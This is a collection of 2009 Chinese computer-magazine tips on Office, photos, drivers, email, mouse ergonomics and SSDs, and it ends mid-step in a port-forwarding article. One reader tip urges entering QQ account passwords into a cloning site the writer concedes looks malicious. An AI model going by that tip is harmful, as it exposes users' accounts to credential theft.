Word 2007界面改动很大，乍一看根本不适应。其实，Word 2007在早期版本上进行了更优化设置，目前的这种功能菜单、工具按钮的布局更方便使用。按照平时从零开始编辑一篇文档到最终打印或是传阅这个流程安排功能按钮，譬如刚开始新建文档时，肯定是进行内容输入，这阶段的操作对应的功能按钮全在“开始”面板中，内容输入的同时可能还需要插入一些图片、表格等，所有与插入元素相关的又被放在“插入”面板中，内容输入完毕后肯定是要进行页面设置，所有功能则在“页面布局”面板中，接下来便是更高级的应用(例如邮件合并)、引用内容、审核等，这些功能依次被安置在“引用”、“邮件”、“审阅”等面板中。

### 找不到的“选项”其实就在Office按钮中

要想对Word工作环境进行设置，离不开它的选项参数设置项。以前直接单击“工具→选项”即可打开，现在却需要选项单击Office按钮，再单击“Word选项”按钮来打开。

### 所有插入元素全在“插入”选项卡

在Word2003中，要想在文档中插入图片、插入文档、剪贴画、图表、艺术字、符号等，都需要通过菜单来实现，而且不同的插入对象可能分布在不同的菜单中。而现在，所有你想插入到文档中的对象，都在“插入”工具面板中。

### 版式设置只求“页面布局”

当文档内容输入完毕，接下来需要进行版式设置时，所有与版式设计相关的功能项都集中在“页面布局”工具面板中。例如分栏、稿纸设置、缩进、间距等设置。

### 最常用功能要特殊对待

虽然Word已经按照用户使用习惯将频繁使用的功能放置在最方便选用的位置，但是因为工作方式、性质不同，每个朋友可能有自己最常用的功能，但这些功能也许不在工具栏中的最方便位置。其实，Word的定制功能非常强大，比如我在平时编辑文档时，经常要用到插入图片、插入文件这两项功能，那就可以为它们设置特定的快捷键，日后就可以一键达到目的了。

### 让 Word 多标签替代多窗口

IE6及以前版本的浏览器由于不支持多标签浏览，导致很多朋友都改用火狐、傲游、TT等多标签浏览器，多标签的确很方便。如果让自己的Word也支持多标签，使用起来会更顺手。方法很简单：只要直接从http://down1.tech.sina.com.cn/download/down_contents/1231603200/42352.shtml下载安装WordTab插件，重新打开Word后，所有打开的文档窗口都将会以标签形式显示了。

(dream)

## 数码照片也能自动处理

拍照本身是一种乐趣，而拍摄所得到的一批数码照片后的美化处理、管理往往更有意思，例如为照片去红眼、给照片“补妆”、给照片添加小装饰，最后再将处理好的照片制作成好看的相册光盘。其实，这些看起来很高深的操作并不难实现，即使是菜鸟也可以自处理。

### 准备工具

要想处理照片，当然需要有工具才行，在此我们当然不会选择Photoshop这样的专业图片处理工具，难度太大。推荐使用可牛影像，数码照片的后期处理几乎都可以搞定。请从http://www.keniu.com/将可牛影像下载并安装到系统中。而后期制作数码相册，再从http://picasa.google.com/下载Google推出的Picasa相册工具。

### 照片自处理

难者不会，会者不难，对照相处理原本是项高难度技术，但有了可牛影像这款工具，就不难了。

### 批量裁剪，统一大小

在拍照时，有的照片尺寸较大，有的则较小，为了以后欣赏时不会因为尺寸不一样而不具美感，首先是对照片的尺寸进行统一处理。

### 在照片上“补妆”

假如拍照时没有化妆，照片拍摄完毕后还可以后期“补妆”。

### 制作相册光盘

花了大把的心血处理了一批照片，接下来就可以轻松地将它们制作成相册光盘，永久珍藏。

## 网址缩短，要的就是批量

在电脑爱好者2009年第14期的《超长网址惹人厌，网上流行“超短裙”》中提到网址缩短方法，可是在文章中提到的网站有一个缺点：不支持批量网址缩短。

但是，这个缺点已经不复存在了，因为笔者根据is.gd的API用VB开发出了一款史无前例的软件——批量网址缩短器（下载地址：http://work.newhua.com/cfan/200916/siplsd.zip），并且现在在GNU和GPL协议下发布，欢迎各位盗版。

- 本软件有以下优点：
- 支持从文本文件、网页等来源获得的地址进行缩短
- 支持注释和导出。

注：导入的地址文件必须是TXT文本文件，并且必须按照单数行为注释，双数行为要缩短的网址的格式（如无注释，此行请空开）。
比如：
163 `这个是注释`
http://www.163.com` 这个是要缩短的网址`

大家可以去压缩包中查看实例。当然，因我是VB初学者，所以这款软件还是有缺点的：
① 在缩短过程中无法停止。
② 在表格中的注释与网址同步选中上还存在BUG。
③ 图片地址提取器没有集成到软件功能中（在压缩包中有图片链接提取器，也是开源的）。

最后，欢迎各位VB爱好者、高手在我的博客http://hi.baidu.com/2open上就这款软件和我讨论。支持中国开源事业。

小编点评：这个真是原创软件了，关键是用着省事，而且还是免费公开源代码，有喜欢的朋友可以互相切磋一下了。
（浙江/邢宸斐）

## 关于RSS订阅我有话说

电脑爱好者2009年第16期《订阅RSS 尽享资讯》中详细介绍了周博通和鲜果订阅RSS的技巧，在这里我想向大家推荐一种更好更爽的方法。

首先下载Google的Chrome浏览器（在360卫士的软件管家里可以直接下载自动安装），然后用Chrome登录Google阅读器主页http://www.google.com/reader?hl=zh-cn申请Google账号登录进去。

最后点击地址栏右边的“控制当前页→创建应用程序快捷方式”，选择“桌面”，以后就可以直接点击桌面的图标浏览订阅的RSS源了（自从用了它我已经习惯每天都阅读新闻了）。

另外，除了Google阅读器自带的IT信息外，我们可以订阅一些新浪名人博客（比如韩寒），这里我也把自己的订阅分享给大家，希望给新人以帮助。下载地址：http://work.newhua.com/cfan/200917/gc.rar。

小编点评：又是一次不留地址、姓名、邮编和身份证号的神秘“第一次”投稿人，你的稿费已经被小编我“精心”收藏起来了，速速发来上述信息吧……
（wu dongliang）

## QQ空间装扮终极武器：QQ空间克隆

呵呵，高考完了，没事可做很无聊，去书店买电脑书，看见《电脑爱好者》，翻了一下，好家伙，真精彩，于是买了一本，一天看完半本，打算订阅全年的，但是我要去上学了，到学校才订吧！

2009年15期《好汉三个帮，QQ要武装》中提到了我的空间轻松装扮，我试了一下，这个软件不错，占用内存小，而且操作简便，但是有一点缺陷，就是可供选模板太少，而且如果想把自己的空间装扮好需要一个一个试，然后再保存。下面我来介绍一种更为省事的装扮QQ空间的方法——克隆QQ空间。

打开http://www.qzone6.com，一定要开金山网镖之类的软件哦，这个网页好像有恶意内容，不过没关系，这个网镖可以解决，不过我保证克隆软件绝对没问题。

打开网页后，点击不是红色字体的按钮，初次使用需要安装，不过这个软件很小的，安装完毕后，重新点击按钮，然后输入QQ帐号密码和验证码（不会盗号哦），进入页面，然后输入你想要克隆好友空间的QQ号，点击开始克隆空间，按照操作再输入2次验证码，就OK了。

小编点评：本文的作者是第一次投稿，其实类似的QQ工具不少，很多也需要你输入用户名和密码，至于是否值得使用，就看你自己判断了，小编反正是不支持使用它们。另外，小编上去了这个网站，并未弹出恶意内容。难道是RPWT……
（河北/贾朝藤）

## 《轻松找出邮件附件中的宝贝》的回音

2009年15期《轻松找出邮件附件中的宝贝》中介绍了如何管理众多邮件附件的方法，我们也可以利用这些方法，让QQ邮箱“不务正业”。众所周知，QQ邮箱已经可以免费升级容量了，而且邮箱的附件大小也达到了惊人的50MB，估计大家都还没能最大限度地利用好这特大的空间吧，现在，跟我一起将邮箱改成一个网络硬盘吧！

用邮箱将要上传的文件以邮件附件的方式发送给自己的QQ邮箱，发送到之后，点击“全文搜索”搜索框后面的“高级查找”，再点“查看全部附件”，再看看主界面，你所有的附件都列在那里了，你想下载哪个就点下载就行了。

可能有些朋友认为文件多了的话，各类文件都有，一个一个地查找，岂不是很麻烦？其实并不用这么麻烦，只要稍加改动一下，问题就可以迎刃而解了。点击左边菜单中的“我的文件夹”新建一个文件夹，如TXT，再将与其有关的邮件移动到该文件夹中。现在再点击一次“查看全部附件”，在右边的列表中选择“TXT”，点击之后，“TXT”文件夹里所有附件都在这里了。

小编点评：除了发邮件，聊天，保存文件，万能的QQ邮箱又多了一种用处，估计以后还可以打网游，写作业了……
（广西/梁振琛）

## 新系统装驱动不用费心思

虽然现在的操作系统都集成了一定数量的硬件设备驱动程序，但仍有一些设备可能不在默认提供列表之列。因此，安装设备驱动程序便成了新装系统后的首要任务，因为你不将它们服侍好，就无法使唤它们为自己服务，譬如摄像头不能摄取头像，声卡不发声……

### 从易到难，有驱动光盘就直接装

假如手头有现成的驱动安装光盘，那安装驱动程序就非常简单了。直接打开驱动光盘，找到“Setup.exe”程序，直接双击即可进行安装了。

也有些朋友可能之前已经将驱动光盘备份到本地硬盘中了，这种情况下安装方法与直接从光盘安装类似。

### 没有驱动光盘，网上找

假如驱动光盘丢失，又没有做好事先备份，这种情况下可以通过网络来搜索、下载驱动程序。

第一步：要弄清楚设备品牌名称、型号，只有这样才能将品牌名称、型号作为关键字来搜索驱动。通常，硬件设备包装盒上都有品牌、型号介绍。假如没有包装盒、说明书，还可以直接在设备外壳上查找具体的品牌、型号参数。

第二步：打开驱动之家网站（地址：http://www.mydrivers.com/），在搜索框中输入要找驱动设备的品牌名+型号，例如要想找“TL-WN322G”这款无线网卡的驱动程序，搜索、下载即可。

第三步：下载了驱动程序后就可以直接将其安装到系统中了，安装方法与光盘安装法类似。

### 借助驱动程序智能工具实现完美解决方案

也许有些设备既无法找到包装盒或说明书，又无法直接查看其具体的品牌、型号，这样就无法从网上搜索它的驱动程序了。这时，可以借助驱动程序智能检测、下载、安装工具——驱动精灵来解决问题了。使用方法很简单：

第一步：从http://www.drivergenius.com/下载驱动精灵，安装到系统中后即可使用。启动驱动精灵时它会自动检测系统中的硬件设备，启动成功后只要直接单击“驱动更新”按钮，再选择“安全更新”项，在下面的列表中便会看到当前还没有安装驱动的设备。

第二步：直接单击“下载”按钮即可下载安装该设备的驱动程序了。

### Windows 7系统旧方法失效，我有新方案

现在，不少朋友都安装了最新的Windows 7系统，由于系统为最新版，很多硬件厂商还没来得及为硬件设备开发出最新的驱动程序，或者是已经有适合Windows 7系统的驱动程序，读者朋友不会搜索。其实，Windows 7系统提供了智能检测及更新功能，一般的硬件设备的驱动程序都能搞定。

第一步：单击“开始→所有程序→Windows Update”，单击“检查更新”项，待搜索完毕后就会看到系统更新项，单击“安装计算机更新”下面的“可选更新可用”链接，在打开的列表中便可看到搜索到的硬件设备。

第二步：直接在列表中勾选设备，再单击“确定”按钮，在打开的窗口再单击“安装更新”按钮即可开始下载、安装驱动程序了。最后只要重新启动一次系统即可完成驱动程序的安装了。
（dream）

## 随时提醒，才是真的忘不了

2009年第12期《要想忘不了，就用网络记事本》中讲了通过网络记事本和邮箱来记事或者提醒的方法，为了能够看到记事的内容，还需要上网，个人感觉还不够方便。我找到了两种更为方便的方法，这两种方法都能直接把信息发送到我们的手机，让我们把重要消息随身携带，更方便，更保险。重要的是，这种方式都是完全免费的。

### 方法一：记忆日网站专业事件提醒

记忆日（http://www.jiyiri.com/）有其强大的提醒功能，不论是生日，还是纪念日都可以按公历和农历提醒，提醒分为Email提醒和手机提醒，并且提醒时间可以自己设置，十分方便。生日提醒一经设置，每年相应时候都会得到通知，纪念日则可以扩展到进行任何事件的提醒。

### 方法二：139邮箱邮件到达通知妙用

这种方式特别适合提醒内容较长的情况（不超过300字），你只要使用主流邮箱都有的定时发送邮件功能，给你自己的139邮箱发送一封邮件，时间一到，你的139邮箱就会收到相应的邮件，接着139邮箱就会自动向你的手机发送邮件到达提醒的短信，短信包含了邮件主题和正文的前300个字。

小编点评：

不管网络提醒也好，还是使用系统软件提醒也好，其实最好的方式还是用手机提醒，毕竟这东西可是要随身带在身上的。（四川/龚小江）

## 显示桌面难吗？

在2009年第15期《电脑爱好者》《快回桌面，我有新招》中介绍了一款小工具使得“显示桌面”后可以快速恢复显示桌面前的界面。

首先，我要指出这篇文章中的错误：文中说，“显示桌面”后，所有的窗口都会被最小化，其实不是这样的。那些窗口只不过是被桌面遮盖了而已，并非最小化（检验依据：在Vista下，被遮盖的程序显示的是动态缩略图，而最小化的程序显示的是静态缩略图；显示桌面后原来打开的程序显示的是动态缩略图）。为了一个这么简单的问题，还要用一个“小工具”，未免有些小题大做，其实用一个很简单的办法，只要再按一下“显示桌面”，原来打开的所有窗口就全部恢复啦！多简单啊！

小编点评：看来这位读者是还没有体验到Windows 7的实力，不然一定会知道文章中所实现的是Windows 7的显示桌面功能。（上海/胡悦琪）

## 修复损坏Word文档还有两招

2009年15期的《多头并举，巧妙修复损坏的Office文档》一文介绍了4种方法用以修复损坏的Excel工作簿，这些方法同样适用于Word文档。此外，对Word文档而言还有以下方法亦能够用来尝试修复损坏的文档。

### 使用“恢复文本转换器”提取文字

第一步：在“工具→选项”项，再单击“常规”选项卡。确认已选中“打开时确认转换”复选框。

第二步：单击常用工具栏上的“打开”按钮，在“文件类型”框中，单击“从任意文件还原文本”。

第三步：像通常一样打开文档。使用“从任意文件还原文本”转换器成功打开损坏文档后，可将它保存为Word格式或其他格式（例如：文本格式或HTML格式）。文档中的段落、页眉、页脚、脚注、尾注和域中的文字将被恢复为纯文本，不能恢复文档格式、图形、域、图形对象和其他非文本信息。

### 插入文件法

第一步：启动Word并新建一个空文档。点击“插入→文件”菜单项。

第二步：通过“查找范围”列表找到损坏文件所在的文件夹，然后单击该损坏的文档。

第三步：单击“插入”按钮。

以上操作以Word 2003为例，在Word 2007中具体操作会有所不同，请在操作时注意所用Word版本。

小编点评：谁再说Word文件坏了怎么修复，那实在是“没事找抽”型了……（山东/王霞）

## Flash游戏下载更轻松

看了贵刊2009年第9期《手把手教你下载Flash小游戏》，觉得很麻烦，其实使用一个叫“皮皮小游戏百宝箱”的软件，可以自动下载小游戏和离线玩，很方便。地址http://www.pipiyouxi.com/down/pipi.exe。

下载后打开，在右面有一个小游戏分类，可以层层推进，从中发现你想玩的小游戏，或者在上面的搜索框里输入名称，可以直接找到。下载完毕后打开，在界面上可以直接玩或者点击下面的DIY游戏，可以找到Flash的可执行文件，复制到合适的地方，就更方便玩了。这个游戏件里的游戏非常多，可以满足要求，是不是很方便啊？

小编点评：没错是简单，但如果不是游戏的Flash你是不是就没办法用这个软件搞到手了呢？（心灵の天使）

## 不要‘鼠标手’，从‘新’做起

经常会听身边人说到“鼠标手”，这个“鼠标手”可不像武侠电影中的“九阴白骨爪”、“六脉神剑”之类的本事，而是整天感觉不适的劳损疼痛。“鼠标手”主要是在平时使用电脑过程中没有防范意识而造成的，我们不要亡羊补牢，要未雨绸缪，杜绝“鼠标手”，从“新”做起。

### “鼠标手”是如何练就的

“鼠标手”是通俗说法，在医学上称为“腕管综合症”，在使用鼠标时，鼠标一般需要放置在某一个平台上，有一定的高度，手腕必须背屈一定角度，这时腕部就处于强迫体位，不能自然伸展。此外，长时间使用食指、中指按鼠标键也会出现类似的后果。当手腕关节长时间处于紧张状态，压迫了腕管中的正中神经，使神经传导被阻断，双手就会出现刺痛感、麻痹感以及无力的症状。时间长了，疼痛感便会越来越强烈，严重时甚至不用手工作时也会疼痛不已。其实，我们的手指关节组织以及神经纤维出现微小损伤的代价不亚于腿部肌肉做了一整天旅行后出现的损伤。因此，“鼠标手”主要是在用电脑鼠标过程中不健康使用方法以及没有注意科学地调节而“练就”的。

### 学会给手指减负

既然知道了“鼠标手”的形成原理，即使是非医学专业人士，我们也知道可以通过减少鼠标操作频率及正确的调节手段来避免。其实，在电脑操作过程中，就要学会给手指减负：

- （1）双击变单击，减负一半

在电脑中操作一般都是双击打开、单击选中，而通过对系统设置可以将单击变成打开、鼠标移动到目标上自动选中，这样恰好可以给手指减负一半的负担。（以Windows XP为例）

打开“我的电脑”，单击菜单“工具→文件夹选项”，在打开的窗口中选择“常规”，接下来启用单击打开项目即可。

小提示：有些情况下，我们可能需要重复按鼠标键，例如一些网络游戏中的找怪环节、方形渐开拔怪等，这种要频繁按鼠标键的操作可以使用按键精灵之类的工具来代替。

### 用鼠标要讲究科学、健康

当然，防止患上“鼠标手”还是以防范为主，除了上面的减负环节外，更应该注意科学、合理地使用鼠标，要做到这点应从以下几方面做起：

- （1）选择鼠标时应该考虑人体工学类鼠标，鼠标大小最好适合自己手掌，不要选择过大或是过小的鼠标。
- （2）使用鼠标时尽量借助臂力而非腕力，同时手臂也最好不要悬空。
- （3）避免上肢长时间处于固定、机械而频繁活动的工作状态下，每工作一段时间就应该活动一下肢体，比如轻轻握拳、旋转手腕等，休息时可用温水泡手以促进血液循环。在做活动时可以参考下面两种训练方法：

训练方法一：用左手食指和无名指轻揉右手手指，每个手指揉15秒左右。

训练方法二：双手合十，前后做摩擦运动，达到手掌微热的效果，这种简单的运动同样能够促进血液循环。

训练方法三：双手手指做用力伸展20次，这种运动对手部血液循环有很好的促进作用。

### 延伸阅读：鼠标增强类工具一把抓

上面我们讲的是如何防范“鼠标手”，提到了鼠标，更多朋友对鼠标相关的软件更有兴趣，下面我们推荐几款：

- （1）华华鼠标自动点击器（下载地址：http://www.newhua.com/soft/24673.htm），可以通过热键来启动鼠标左键或是右键的自动点击功能，不仅可以延长鼠标的使用寿命，更可以解放双手。
- （2）鼠标小助手（下载地址：http://www.newhua.com/soft/18932.htm），在将鼠标指针移到菜单、按钮等目标上，它会自动判断接下来的鼠标操作，然后自动完成诸如点击、双击、右击等操作，可以解放你的手指。
- （3）键盘鼠标发声器（下载地址：http://www.newhua.com/soft/5275.htm），可以在用户按下按键或是鼠标按键时自动发出声音。
- （4）IE鼠标手势伴侣（下载地址：http://www.newhua.com/soft/84358.htm），可以为IE添加鼠标手势功能，很多浏览器操作（例如前进、后退、刷新等）都可以通过鼠标手势来完成。
- （5）鼠标计程仪（下载地址：http://www.newhua.com/soft/83200.htm），可以记录鼠标在屏幕上移动的总路程。

（dream）

## SSD想说爱你还真难

随着上网本的流行，和笔记本对速度的追求，SSD硬盘已经成了很多发烧友的“至宝”。很多菜鸟在购买笔记本，或是在听高手聊天时，也常常会听到SSD这个词。结合本文那么SSD到底有什么缺陷呢？

### 试试看，其实SSD真的不一样

由于没有机械部件，所以它可以提高数据的读写速度，并且还可以减少功率消耗。最重要的是基本没有任何噪音。从第一代的Eee PC开始，就使用了4GB SSD，正因为如此让它的性能并没有想象那么“尴尬”。

### SSD的弱点

如果你拆开SSD的硬盘，就会发现上面其实是一块一块的闪存芯片。从原理上来讲这些芯片本身是没办法重新写入的，而导致SSD寿命不长，则是它们有个致命“弱点”——重写次数限制。

不要以为这是“天方夜谭”，其实由于SSD的不能写入，所以闪存芯片在写入数据时需要先将原有的数据擦除（将所有bit都变为1），然后再写入新的数据（把需要的bit设为0）。为了便于后面的介绍，这里你还需要知道擦除和写入的单位是不同的。擦除是区块为单位，写入是以页面为单位。比如2GB的SLC，页面大小为2KB，区块为64页面。

> 小提示：
SLC和MLC是闪存的两种架构（你可以理解为“方式”），在包括SSD硬盘、闪盘、MP3/4、存储卡在内的多种设备上你都可以看到它们的出现。MLC的优势是成本低，但重写次数少，性能低，SLC则反之，10倍于MLC的重写次数及速度的提升带来的是数倍的价格提升，所以目前的产品都是使用MLC方式，当然不同设备针对重写次数以及读写性能的优化则各不相同，所以即便是MLC的速度也会有高有低。

### SSD脆弱的一面

“实践是检验真理的唯一标准”——根据这一原理，SSD在写入时的真实情况是什么呢？前面已经说到了区块是由多个页面组成的，于是当写入页面时，当然不可能完全让你遇到完全清空的区块，于是就要将整个区块重写。

于是经过了物理学专家、电脑高手、黑客……的计算，前面的理论400多年就要缩小到22年左右。换为MLC只有2.2年的寿命，这还是平均值，所以SSD的寿命甚至还能更小。当然这也只是理论数值，目前的技术SSD硬盘不会只有这么短的寿命。

为了解决重写次数限制问题，SSD硬盘也就有了各种减少读写次的方法，比如使用一些缓存机制，对数据进行统一重写。另外Windows 7也针对SSD进行了优化，可以减少读写次数，这样在提升性能的同时延长了寿命。

> 你知道吗？
目前硬盘主要分为机械硬盘、SSD硬盘（固态硬盘）以及混合硬盘。常提到的5400转、7200转硬盘就是机械硬盘，本文介绍的就是SSD硬盘，而混合硬盘则大容量机械硬盘+小容量SSD硬盘的组合产物，价格相对SSD硬盘来说便宜，性能又得到保证，还有足够大的容量。

（BUFF）

## 用好超链接 来去更自如——玩转Word2007的超级链接

对于超级链接，上过网的朋友都不会陌生。超级链接一般用带下划线的文字表示，而且颜色与周围文字的颜色会有所区别，将光标停留在超链接上，会显示与此链接关联内容的位置。在Word中输入一个网址后按回车键，就会自动生成一个超级链接。用好了Word的超链接功能，可以让文档之间的跳转更便捷。

### 实例一：把文档归归类

小薇是一家公司的秘书，平时公司的各种文档都是她管理保存，时间长了，查找起来很不方便。于是她想到用Word的超链接功能，为所有文档做个目录，这样以后只要打开目录Word文档，就可以从中单击相应的超链接打开其他文档，十分方便。

第一步：首先新建一个Word文档，保存为“材料目录”，依次输入文档目录，每条目录之间按回车键分隔。

第二步：选中第一行目录右击选择“超链接”出现对话框，单击“原有文件或网页”，在“查找范围”中进入材料保存文件夹，然后单击选择里面相应的文件，单击“屏幕提示”可输入材料相关说明文字，这样光标移到该超链接上就会显示相应的文字。

第三步：使用这种方法，依次设置好其他文件的链接，以后只要按住Ctrl键不放，单击链接即可打开相应的文件。如果要修改或删除超链接，可右击超链接选择“编辑超链接”或“取消超链接”即可。

> 小提示：
默认情况下，Word会自动将网址、Email地址转换成超链接，有时这种自作聪明的功能，我们并不需要。此时单击“Office”按钮选择“Word选项”出现对话框，切换到“校对”选项，取消选择“忽略Internet和文件地址”即可。

### 实例二：给计划书加目录

最近开发部搞了一个大型游戏开发计划，为了便于Boss有选择性地查看，小薇决定在文档开始部分加上目录，利用目录的超级链接功能实现目录和正文间的快速跳转，Boss只要单击目录，即可查看相应的内容，其实在大型文档的处理中，目录是必不可少的环节，目录本质上也是使用了超链接，不过是自动生成的，而且能动态更新。

第一步：首先要为计划书的内容加上分级标题。选中一级标题，单击“开始”标签下的“标题1”，选中二级标题设置为“标题2”，如果有三级标题设置为“标题3”……使用这种方法，依次设置计划书中的所有分级标题。一般情况下，这个工作是在输入文档时就同步完成了。

第二步：在计划书的第二页输入目录，然后切换到“引用”标签，单击“目录”选择“自动目录1”，此时就会自动生成一个计划书的目录，后面还有相应的页码。按住Ctrl键单击目录即可跳转相应页面。

### 高手支招：如何修改超链接的默认样式？

默认情况下，超链接的样式是固定不变的，我们可以选中超链接，重新设置字体字号颜色等，但是如果文档中有大量的超链接需要修改，则可以修改超链接的默认样式，从而实现一次性修改。

切换到“开始”标签，单击“更改样式”下的“样式”按钮，打开样式面板，这里可以修改默认样式。右击“超链接”选择“修改”，此时就可以重新设置超链接默认的字体、字号和颜色。单击“格式”按钮选择“字体”，还可以进行更加精细的设置，如：下划线、文字效果等。

（dream）

## 用好系统功能 打造简易相框

2009年第14期有一篇名为《打造22英寸数码相框》的文章，作者主要通过安装桌面照片软件或梦幻桌面的方式将显示器打造成“超大”的数码相框，而笔者在平时的实践中发现，其实只要是VISTA系统并开启了AERO特效，完全不用安装任何额外的软件就可以轻松实现该文中所实现的效果。

首先，打开任意一个存有多张照片的文件夹，用系统自带的Windows照片库进行任意一张照片的预览，然后用鼠标点击一下“用幻灯片播放”的按键或按F11，然后就出现了全屏播放的幻灯片效果（小编：说实话，这个功能平常我都没注意到）。

如果嫌效果太过单调，还可以点击左下方的“主题”按键，选择更多的切换效果，或者点击右下方的“设置”按键，选择不同的切换效果，或者点“退出”按键退出幻灯片播放（小编：那我要进行别的操作怎么办…）。

综合这样的方法，就可以让我们的显示器充当临时的数码相框了，而且不用安装任何额外的软件，非常简单。

其实，Windows Vista虽然受到许多人的诟病，但系统中还是整合了许多的特色功能，只要我们仔细地找一找，就可以少走许多弯路了。

> 小编有话说：
其实木木阿木理解错了原文中的含义，按照原文提供的方法，电脑在充当“数码相框”同时还是可以进行其他操作的，而按照你介绍的方法，电脑还真是完美的cosplay了数码相框——除了看图你啥也干不了！
（湖北武汉/木木阿木）

## 也谈撤回发出的邮件

CFan第12期《撤回发出的邮件》一文，介绍了QQ邮箱的“撤回邮件”功能，但是，文中的“如果对方还没有阅读你的邮件，此邮件就会神不知鬼不觉地删除掉”说法是错误的。因为邮件撤回后，QQ邮箱会给收件人发送一封主题为“发信方已撤回邮件”的通知邮件。

另外，除了QQ邮箱能够撤回邮件外，微软的Outlook同样也有邮件撤回功能。以下我们以Outlook 2003为例，说一说撤回邮件的操作。

启动Outlook 2003，在导航窗格的“邮件”中，单击“已发送邮件”，打开要撤回的邮件。在“动作”菜单中，单击“撤回该邮件”。单击选中“删除该邮件的未读副本”复选钮，如果选中“告诉我对每个收件人的撤回操作是成功还是失败”复选框，则能够收到该邮件撤回操作是否成功的通知。最后确定即可。

与QQ邮箱只能撤回发给QQ邮箱的尚未阅读邮件相同，Outlook能否成功撤回邮件，也有两个限制条件：
① 该邮件的收件人已登录并正在使用Outlook。
② 收件人尚未阅读邮件，或虽然已经阅读但未将邮件从“收件箱”中移出。
③ 邮件服务器需要使用Exchange。

> 编辑点评：
Outlook邮件撤回需要满足的条件挺多的，并不容易。所以一般都是公司内部的邮件撤回，和MM吵架这种事，估计帮不上忙了。如果邮件写错，还有一个办法，就是再发一封补充的邮件，并表示诚恳的歉意。
（文/山东 王霞）

## 保护+提醒，我的报表不出错

一大早上就被领导训了一顿，原因是昨天提交的报表数据有错误，让我重做。回到座位上后，仔细查看了一下发给领导的报表，发现数据并没有错，为什么领导那边的数据错了呢？难道？被领导误改了…… 苦于没有十足的证据，只好在报表上再下点工夫了，一方面是防止报表被领导误修改，另一方面也是让自己的报表准确性更高些。

## 我的报表你别改

如果发给领导的报表，领导只能看不能改这样不就解决了因领导误修改而造成的错误了吗。在Excel 2007中，如果表格尚未保存则直接执行保存命令，如果已经保存过了，则需要执行“另存为”命令。在打开的“另存为”对话框中，单击“保存”按钮左侧的“工具”，在弹出的菜单中选择“常规选项”，然后在“常规选项”对话框中设置“修改权限密码”，单击“确定”按钮后再次“确认密码”即可。

经过上面设置后，再次打开该文档时，便会弹出提示要求输入密码了，如果没有密码直接单击“只读”按钮可以打开查看数据但是不能修改数据了。

## 万千数据，只许改一部分

上面的方法虽然有效保护了数据，但有点太“绝”了，如果我们自己在做报表时误修改了数据怎么办呢？显然“只读”也是有点靠不住的。在日常做报表时，通常很多内容都是固定的，如一些固定的格式，某些单元格中是直接使用公式根据其他单元格中的数据计算得来的。针对这一部分每次不需要修改内容的区域，如果能将其固定不被修改，在实际做报表的过程中只输入一些特定单元格数据，显然也可以大大减少出错的机会。

首先右键单击表格的最左上角区域（全选表格的区域），在弹出的快捷菜单中选择“设置单元格格式”，在打开的“自定义序列”对话框中切换到“保护”标签，然后将“锁定”项取消勾选，最后单击“确定”按钮。然后按住Ctrl键，依次选中需要保护的区域，选择结束后，右键单击被选中的任意区域，参照前面的操作将“保护”标签中的“锁定”项勾选，然后确定。

## 为关键数据请个“监督员”

在做报表时，因为数据量非常大，难免会出现数据输入错误的情况，特别是多输一位或者少输一位的情况。如果某些区域的“合法数据”存在一定的规律，那么我们就可以给这些区域请一个“监督员”，当数据超出这个范围的时候给我们以提醒。

如果某一数据区域中的数值只有在80到100之间才有可能是正确的，如果超出这个范围肯定是错误的。这时我们可以通过设定当这一数据区域中的数据超出这一范围时单元格自动显示为浅红色。选中数据区域，单击“开始”命令标签“样式”功能区域中的“条件格式”按钮，在打开的下拉菜单中选择“突出显示单元格规则”→“大于”，在打开的“大于”对话框中输入100，实际的填充效果可根据自己的需要选择，然后单击“确定”按钮。按类似的方法再设置小于80的条件格式，经过这样设置后，当设置区域中的数据超出这一范围时，单元格的背景色就会变成浅红色了。有了颜色的提醒，就能为报表数据的准确性增加一分保证了。

Excel内置的条件格式非常丰富，并且还可以根据自己的需要自定义条件格式，因此设置条件格式的关键就是找出数据的规律，通常情况下只要能找到一定的规律，都可以通过条件格式来设置超出“规律”的提醒方式。还在为报表中容易出现错误数据而发愁吗？试试上面的这几招吧，相信把这几招适当地用好了，可以节约大量的核对数据的时间。
（江苏/周建峰）

## 鼠标生大病，鼠标键救急

拜读了第16期《键鼠生病，急救有方》一文，受益匪浅。文中介绍的方法适用于鼠标双击不灵，要是鼠标完全不听使唤了，那么你可以使用鼠标键救急。

## 开启鼠标键

- 1. 按Ctrl+Esc键，打开“开始”菜单，然后按方向键（↑、↓、←和→）高亮显示“设置”，按下回车键打开其子菜单。
- 2. 按方向键（↑、↓、←和→）高亮显示“控制面板”，按下回车键打开“控制面板”窗口。
- 3. 按Tab键，选择“辅助功能选项”，按下回车键，打开“辅助功能选项”对话框。
- 4. 按Ctrl+Tab键，切换到“鼠标”选项卡，然后按Tab键，选择“使用鼠标键”，按空格键勾选该项，按Tab键，选择“确定”，按下回车键确认更改。

## 使用鼠标键

在选中“使用鼠标键”复选框并确定后，当Num Lock键处于打开状态时，你就可以使用数字小键盘上的按键操纵鼠标了。数字小键盘与鼠标的对应动作。小编有话说：这个技巧过于高档了，实在太强了！绝对菜鸟！别的就不多说了……
（济南/王杰）

## 功能区映射表Word 2007命令轻松找

拜读了2009年第17期《打造最顺手的文档编辑环境》一文，受益匪浅。要是手头上有一个Word 2003命令与Word 2007命令的对照表，那么上手Word 2007就容易多了。好在微软已经考虑到了这一点，并在Word 2007的帮助系统中加上了一个功能区映射工作簿，该工作簿提供了Word 2007功能区中每个选项卡上的命令列表以及它们在Word 2003菜单上的位置。要获取这个功能区映射工作簿，操作步骤如下：

- 1. 启动Word 2007，并按下F1键打开“Word帮助”窗口。
- 2. 在“键入要搜索的字词”框中键入“功能区映射工作簿”，并单击“搜索”按钮，然后在搜索结果中，单击“参考：Word 2003命令在Word 2007中的位置”。
- 3. 将屏幕内容滚动到窗口最底部，然后单击“Word功能区映射工作簿”。
- 4. 在弹出的“文件下载”对话框中，单击“保存”按钮。现在，双击保存下来的文件，则Excel 2007即启动并将其打开，这里就是Word 2003与Word 2007的命令对照表了。

小编点评：微软就是好呀，想得特别体贴。如果你有机会接触到微软的帮助文件，还真是不错，不仅内容多，而且非常详细，初学者最好的老师——帮助。
（山东/王霞）

## 端口转发新方法

2009年17期《P2P软件跑起来，菜鸟也能玩端口转发》介绍的方法，个人感觉实在太繁琐。现在宽带接入运营商一般都提供路由器，用路由器自带的端口转发就可以实现文中介绍的功能。我们要确认自己的游戏需要哪些端口号，本文以网络游戏泡泡堂为例。

第一步：运行泡泡堂，输入账号密码进入游戏，然后按Win+D弹出桌面，运行360安全卫士，点击“高级→网络连接状态”，找到泡泡堂进程。

